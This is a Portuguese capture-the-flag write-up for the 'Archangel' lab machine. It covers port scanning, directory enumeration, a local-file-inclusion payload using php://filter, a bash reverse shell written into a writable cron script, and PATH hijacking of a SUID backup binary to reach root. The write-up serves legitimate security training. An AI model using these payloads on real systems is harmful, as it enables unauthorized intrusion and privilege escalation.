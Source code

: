 # Archangel
> ### Task2
* ### Scan de portas - Verificando quais portas estão abertas.

```Bash
rustscan -a 10.10.190.103
```
![image](https://github.com/lufffe/Writeups/assets/90646635/09f25182-3576-4a95-aa0d-9ad50849f2c1)

![image](https://github.com/lufffe/Writeups/assets/90646635/6903d907-73b0-44b2-9f2c-eecb0de8dc1f)

* ### Verificando o que está rodando nas portas encontradas.
```Bash
nmap -A -p 22,80 10.10.190.103
```

![image](https://github.com/lufffe/Writeups/assets/90646635/77f9c9b5-4d38-471f-8e50-52ce32e8e477)

* ### Aqui encontramos o hostname para colocar no arquivo hosts.
![image](https://github.com/lufffe/Writeups/assets/90646635/e93565f5-9954-48d3-b9c9-def0b80306be)

* ### Após colocar o hostname encontrado, no arquivos hosts, você já encontra a primeira flag.
![image](https://github.com/lufffe/Writeups/assets/90646635/38df4b9f-d28a-4bcd-93c8-009668cb657a)

### - Scan de Arquivos e Diretórios

```Bash
gobuster dir -u http://mafialive.thm -w common.txt -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/acff1198-bf89-416c-9c2f-dab855959859)

### - Aqui você ver um LFI no parâmetro "view"
![image](https://github.com/lufffe/Writeups/assets/90646635/a776dd89-db9e-40dd-b581-a2559fe64040)

* ### Explorando LFI - com output em base64 no arquivo test.php
>view-source:http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
![image](https://github.com/lufffe/Writeups/assets/90646635/c047d6a4-b997-47fb-b79d-25aa73ca0f2f)

* ### E olhando na decodificação do Base64 encontra a segunda flag
![image](https://github.com/lufffe/Writeups/assets/90646635/4fbb238e-64dd-451a-9add-1f30be7c8f2d)

* ### Verificando no passwd o usuário.
![image](https://github.com/lufffe/Writeups/assets/90646635/05a7805d-28dc-46b2-9da0-5eec1a44fd4b)

* ### Pegando a flag user.txt
![image](https://github.com/lufffe/Writeups/assets/90646635/431c811b-32b7-49a0-9de5-7db4fcb7260b)

> ### Task3

* ### Criando um server para subir uma Reverse shell
```Bash
nc -lnvp 4455
```
![image](https://github.com/lufffe/Writeups/assets/90646635/063f5007-3303-4435-bf06-cc15de9f318c)

* ### Verificando arquivos que são do usuário archangel
```Bash
find / -user archangel 2>/dev/null
```
![image](https://github.com/lufffe/Writeups/assets/90646635/5733f952-a999-4c29-87bc-f68b8379e54e)

* ### Verificando permissões dos arquivos encontrados na pasta /opt/
```Bash
ls -la /opt/
```
![image](https://github.com/lufffe/Writeups/assets/90646635/f5a6b7ab-036f-4e2c-94b6-4a4ee6c8643e)

* ### Como temos permissão de escrita no arquivo helloworld.sh, joguei uma reverse para pegar shell com o usuário.
 ```Bash
echo "bash -c 'bash -i >& /dev/tcp/IP/9999 0>&1'" > /opt/helloworld.sh
 ```
![image](https://github.com/lufffe/Writeups/assets/90646635/5fd620d4-e61e-4243-b434-7d3a8e07e7e8)

* ### Aqui está a segunda flag user
![image](https://github.com/lufffe/Writeups/assets/90646635/b1a6b916-10c3-44c9-b640-0fe1f619f873)

* ### o arquivo backup usa o cp .
home/archangel/secret/backup

```bash
archangel@ubuntu:~/secret$ echo '/bin/bash -p' > cp
archangel@ubuntu:~/secret$ chmod 777 cp
archangel@ubuntu:~/secret$ export PATH=/home/archangel/secret:$PATH
archangel@ubuntu:~/secret$ echo $PATH
```

```bash
archangel@ubuntu:~/secret$ ./backup
```
![image](https://github.com/lufffe/Writeups/assets/90646635/868b4ead-c482-4b80-906d-95f1fe267045)

```bash
cat /root/root.txt
```
